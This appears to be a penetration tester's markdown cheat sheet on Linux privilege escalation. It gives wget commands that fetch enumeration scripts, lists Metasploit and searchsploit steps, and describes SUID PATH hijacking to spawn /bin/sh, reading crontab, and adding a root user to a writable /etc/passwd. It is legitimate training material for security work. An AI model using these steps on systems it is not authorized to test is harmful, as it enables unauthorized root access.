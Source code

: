  Horizontal or vertical privilege escalation?
 
## Resources:
 
 
- [Privilege Escalation Cheatsheet ](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

- [guide to priv escalation](https://payatu.com/guide-linux-privilege-escalation)
 
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
 
- [OSCP guide](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)

## Enumeration

-------------------------------------------------------

- [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
   
        wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
        
- [linpeas output explained](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

--------------------------------------------------------

- [LinEnum](https://github.com/rebootuser/LinEnum)  
  
        wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh        

 
 ## Metasploit 
  
    post/linux/
 
    post/multi/recon/local_exploit_suggester

## Exploits

 - searchsploit linux kernel version
   
 - searchsploit linux version
    
 - [linprivchecker](https://github.com/reider-roque/linpostexp)
  
       wget https://raw.githubusercontent.com/reider-roque/linpostexp/master/linprivchecker.py
     
       python linprivchecker.py extended
     
- [Linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

      wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
      
      ./linux-exploit-suggester.sh
    
 <details>
    <summary>Diry Cow</summary>
    <br>
</details>


- **Kernel Kernel information**

- **Can we read/write sensitive files:** The world-writable files are shown below. These are the files that any authenticated user can read and write to. By looking at the permissions of these sensitive files, we can see where there is misconfiguration that allows users who shouldn't usually be able to, to be able to write to sensitive files.

#

## Manual privilege escalation methods

<details>
    <summary>SUID</summary>
    <br>
    
 (https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) Files: SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. It allows the file to run with permissions of whoever the owner is. If this is root, it runs with root permissions. It can allow us to escalate privileges.
     
   [Check GTFOBin first](https://gtfobins.github.io/)
    
   [Past SUID shells](https://github.com/Kahvi-0/Tools-and-Concepts/tree/master/Toolbox/Shells/SUID)
          
   Sometimes custom scripts will use relative pathing for commands rather than absolute. One way to abuse this would be to add . to your PATH and have a shell script in your working directory with the name of that command in the script. 
     
          echo /bin/sh > <command>    # To run <command> which then points to shell
          
          chmon 777 <command>
          
          export PATH=/<new dir>:$PATH
   
        #Manual  find directory -user root -perm -4000 -exec ls -ldb {} \; 2>&1 | grep -v "Permission denied"
        
         find / -perm -u=s -type f 2>/dev/null
</details>
         
#

<details>
    <summary>Crontab</summary>
    <br>
    
The scheduled cron jobs are shown below. Cron is used to schedule commands at a specific time. These scheduled commands or tasks are known as “cron jobs”. Related to this is the crontab command which creates a crontab file containing commands and instructions for the cron daemon to execute. There is certainly enough information to warrant attempting to exploit Cronjobs here.    
 
    cat /etc/crontab
 
 
</details>   

#


<details>
    <summary>Writable passwd file</summary>
    <br>

If we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!
    
 To create a new root user:
 
     Create password compliant hash
     
       openssl passwd -1 -salt [salt] [password]
       
     Add a new line in the passwd file
     
       <user>:<password hash>:root:/root:/bin/bash
</details>
    

#

</details>
   

